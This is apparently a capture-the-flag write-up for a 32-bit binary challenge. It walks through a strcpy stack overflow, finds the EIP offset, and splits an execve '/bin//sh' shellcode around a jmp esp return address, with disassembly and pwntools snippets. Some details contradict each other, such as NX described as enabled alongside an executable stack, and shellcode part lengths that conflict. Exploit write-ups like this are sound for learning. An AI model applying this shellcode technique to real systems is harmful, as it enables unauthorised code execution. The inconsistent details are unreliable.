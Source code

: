 # Space

This challenge was an easy shellcoding based challenge wherein the constraints were length. We had to cleverly make use of a shellcode in order to spawn the shell. To understand better, let's dive right in!

## Preliminary ananlysis on the binary:
- file:

file:///home/shravya/Pictures/Screenshot%20from%202021-10-14%2013-03-54.png![image](https://user-images.githubusercontent.com/59280388/137272155-f94bad4e-e970-4561-8adb-aa0ef79f7dcc.png)

- permissions:

file:///home/shravya/Pictures/Screenshot%20from%202021-10-14%2013-05-08.png![image](https://user-images.githubusercontent.com/59280388/137272340-8f2a629c-ee52-4f90-aeda-a2062791a084.png)

As we can NX is enabled. Rop is another way to approach and solve this problem, however we shall make use of the shellcode as the stack is already executable in nature. 

## Approach:
To state the obvious, we will need an execve shellcode to pop out a shell! However we must look into the binary given and find out the vulnerability!

Below is the disassembly for main():
```   
   0x080491da <+11>:	mov    ebp,esp
   0x080491dc <+13>:	push   ebx
   0x080491dd <+14>:	push   ecx
   0x080491de <+15>:	sub    esp,0x20
   0x080491e1 <+18>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491e6 <+23>:	add    ebx,0x20de
   0x080491ec <+29>:	sub    esp,0xc
   0x080491ef <+32>:	lea    eax,[ebx-0x12bc]
   0x080491f5 <+38>:	push   eax
   0x080491f6 <+39>:	call   0x8049040 <printf@plt>
   0x080491fb <+44>:	add    esp,0x10
   0x080491fe <+47>:	mov    eax,DWORD PTR [ebx-0x4]
   0x08049204 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049206 <+55>:	sub    esp,0xc
   0x08049209 <+58>:	push   eax
   0x0804920a <+59>:	call   0x8049050 <fflush@plt>
   0x0804920f <+64>:	add    esp,0x10
   0x08049212 <+67>:	sub    esp,0x4
   0x08049215 <+70>:	push   0x1f
   0x08049217 <+72>:	lea    eax,[ebp-0x27]
   0x0804921a <+75>:	push   eax
   0x0804921b <+76>:	push   0x0
   0x0804921d <+78>:	call   0x8049030 <read@plt>
   0x08049222 <+83>:	add    esp,0x10
   0x08049225 <+86>:	sub    esp,0xc
   0x08049228 <+89>:	lea    eax,[ebp-0x27]
   0x0804922b <+92>:	push   eax
   0x0804922c <+93>:	call   0x80491a4 <vuln>
   0x08049231 <+98>:	add    esp,0x10
   0x08049234 <+101>:	mov    eax,0x0
   0x08049239 <+106>:	lea    esp,[ebp-0x8]
   0x0804923c <+109>:	pop    ecx
```
As we can see, the size of the stack is 0x20, whereas only 0x1f bytes of input data are read! Which means there is no possibility of an overflow. However a look into the vuln() function shows:

```
   0x080491a4 <+0>:	push   ebp
   0x080491a5 <+1>:	mov    ebp,esp
   0x080491a7 <+3>:	push   ebx
   0x080491a8 <+4>:	sub    esp,0x14
   0x080491ab <+7>:	call   0x8049243 <__x86.get_pc_thunk.ax>
   0x080491b0 <+12>:	add    eax,0x2114
   0x080491b5 <+17>:	sub    esp,0x8
   0x080491b8 <+20>:	push   DWORD PTR [ebp+0x8]
   0x080491bb <+23>:	lea    edx,[ebp-0xe]
   0x080491be <+26>:	push   edx
   0x080491bf <+27>:	mov    ebx,eax
   0x080491c1 <+29>:	call   0x8049060 <strcpy@plt>
   0x080491c6 <+34>:	add    esp,0x10
   0x080491c9 <+37>:	nop
   0x080491ca <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491cd <+41>:	leave  
   0x080491ce <+42>:	ret 
   ```
   From the above snippet of the disassembly of vuln(), we can see that strcpy() is being used and therefore we can overrwite eip to get a shell. 
   
   To find the buffer size before eip, we shall give a random input buffer of length 0x1f. 
   ```buf = cyclic(0x1e)```
   
   file:///home/shravya/Pictures/Screenshot%20from%202021-10-14%2014-31-54.png![image](https://user-images.githubusercontent.com/59280388/137286010-409c0c82-f585-48f7-876c-ecec53287009.png)

   In the above snippet, for our inp = "aaaabaaacaaadaaaeaaafaaagaaaha", segfault occurs at ```0x61666161```. i.e eip is located after 18 bytes of input data.
   
   The total size of pur input is only 31 bytes. Which means, we need to split a shellcode in such a way that the first part of the shellcode compromizes the last 9 bytes of our input data. The second part of our shellcode must account for the first 18 bytes of input data.
   
   This can be further explained as:
   Consider the shellcode:
   ```
      31 c9                   xor    ecx, ecx
      31 d2                   xor    edx, edx
      52                      push   edx
      68 2f 2f 73 68          push   0x68732f2f
      68 2f 62 69 6e          push   0x6e69622f
      89 e3                   mov    ebx, esp
      6a 0b                   push   0xb
      58                      pop    eax
      cd 80                   int    0x80
   ```
   The above shellcode is for an x86 execve syscall. We are required to split the shellcode in such a way that:
    - first 18 bytes: part1 of shellcode
    - return address (eip) : jmp esp
    - remaining 9 bytes: part2 of shellcode
      
   ## Splitting the shellcode:
   
   ```
   shell1 = 'xor ecx, ecx\n'
   shell1 += 'xor edx, edx\n'
   shell1 += 'sub esp, 0x16\n'
   shell1 += 'call eax\n'
   shell1 = asm(shell1)

   shell2 = 'push edx\n'
   shell2 += 'push 0x68732f2f\n'
   shell2 += 'push 0x6e69622f\n'
   shell2 += 'mov ebx, esp\n'
   shell2 += 'push 0xb\n'
   shell2 += 'pop eax\n'
   shell2 += 'int 0x80\n'
   shell2 = asm(shell2)
```

  - len(shell1) = 9 and len(shell2) = 18
  - While giving input it is essential that the last 9 bytes are executed along with the first 18! Thus a ```jmp``` to ```esp``` after the first 18 bytes i.e overwriting ```eip``` with ```jmp_esp``` instruction would make sure the smooth execution of our shellcode.

